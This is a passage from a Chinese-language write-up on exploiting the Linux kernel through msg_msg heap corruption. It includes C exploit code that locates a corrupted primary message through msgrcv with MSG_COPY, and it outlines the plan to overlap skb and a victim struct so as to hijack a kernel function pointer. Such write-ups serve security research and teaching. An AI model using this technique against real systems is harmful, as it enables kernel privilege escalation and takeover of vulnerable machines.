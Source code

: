 在填充消息时，为每个主消息与辅助消息填充了消息队列标识，那么这里直接查看消息内存，如果主消息与辅助消息队列标识不相同，即可断定该主消息msg_msg-&gt;list_head-&gt;next成员被修改

如何保证遍历消息时，主消息与辅助消息不会被释放：接收消息时使用MSG_COPY标志

```
int peek_msg(int msqid, void *msgp, size_t msgsz, long msgtyp) `{`
  if (msgrcv(msqid, msgp, msgsz - sizeof(long), msgtyp, MSG_COPY | IPC_NOWAIT) &lt;
      0) `{`
    perror("[-] msgrcv");
    return -1;
  `}`
  return 0;
`}`

  printf("[*] Searching for corrupted primary message...\n");
  for (int i = 0; i &lt; NUM_MSQIDS; i++) `{`
    if (i != 0 &amp;&amp; (i % HOLE_STEP) == 0)
      continue;
    if (peek_msg(msqid[i], &amp;msg_secondary, sizeof(msg_secondary), 1) &lt; 0)
      goto err_no_rmid;
    if (*(int *)&amp;msg_secondary.mtext[0] != MSG_TAG) `{`
      printf("[-] Error could not corrupt any primary message.\n");
      goto err_no_rmid;
    `}`
    if (*(int *)&amp;msg_secondary.mtext[4] != i) `{`
      fake_idx = i;
      real_idx = *(int *)&amp;msg_secondary.mtext[4];
      break;
    `}`
  `}`

  if (fake_idx == -1 &amp;&amp; real_idx == -1) `{`
    printf("[-] Error could not corrupt any primary message.\n");
    goto err_no_rmid;
  `}`

  // fake_idx's primary message has a corrupted next pointer; wrongly
  // pointing to real_idx's secondary message.
  printf("[+] fake_idx: %x\n", fake_idx);
  printf("[+] real_idx: %x\n", real_idx);
```

**2.2.7 使用可控范围更广的结构体占据msg_msg**

正常来说，下一步应该是使用可控范围更广的结构体(skb)与带有函数指针的结构体同时占据msg_msg，然后劫持函数指针。所以利用流程应该如下:

> 1. 主消息1放弃辅助消息msg_msg, skb占据msg_msg

> 2. 主消息2放弃辅助消息msg_msg, victim_struct占据msg_msg

> 3. 此时skb与victim_struct占据同一内存空间

> 4. 修改skb劫持victim_struct内函数指针

> 5. 触发victim_struct函数指针，完成流程控制
